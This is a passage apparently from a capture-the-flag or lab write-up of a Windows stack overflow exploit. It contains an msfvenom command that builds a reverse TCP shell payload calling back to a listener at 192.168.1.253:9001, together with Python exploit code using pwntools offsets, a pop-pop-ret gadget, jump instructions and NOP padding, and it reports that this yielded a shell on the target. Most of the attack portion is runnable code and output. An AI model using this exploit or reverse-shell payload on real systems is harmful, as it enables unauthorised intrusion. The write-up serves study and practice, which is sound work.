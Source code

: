 This puts us back at the top of the payload leaving 624 bytes for a shell.
# Testing against target

Using msfvenom:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.253 LPORT=9001 -f raw -o payload.bin -b '\x00\x0a\x0d'
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Saved as: payload.bin
```

prepending the payload and running it gives a shell!
```
def payload():
    with open("./payload.bin", "rb") as f:
        return f.read()

max_buf = 0x384
 
body = pwn.util.cyclic.cyclic_metasploit(max_buf)
deref_off = pwn.util.cyclic.cyclic_metasploit_find(0x77413177)
ppr = 0x00409569 #pop esi; pop ebp; ret; 

body = pwn.util.cyclic.cyclic_metasploit(deref_off)
eip_off = pwn.util.cyclic.cyclic_metasploit_find(0x41307741)

body = payload()
body += b"A"*(eip_off -12 - len(body))
body += b"\xE9\x73\xFD\xFF\xFF" # jmp 0xfffffd78
body += b"\x90\x90\x90"
body += b"\x90\x90\x90\x90"

body += b"\xEB\xF2\x90\x90" # jmp short 0xfffffff4
body += b"A"*(deref_off - len(body))
body += pwn.p32(ppr)
body += b"C"*4
body += b"D" * (max_buf - len(body))
```

Now to test it against the target.
Swapping out the shellcode and IP, and it works!!

# Root
Looking at the users groups:
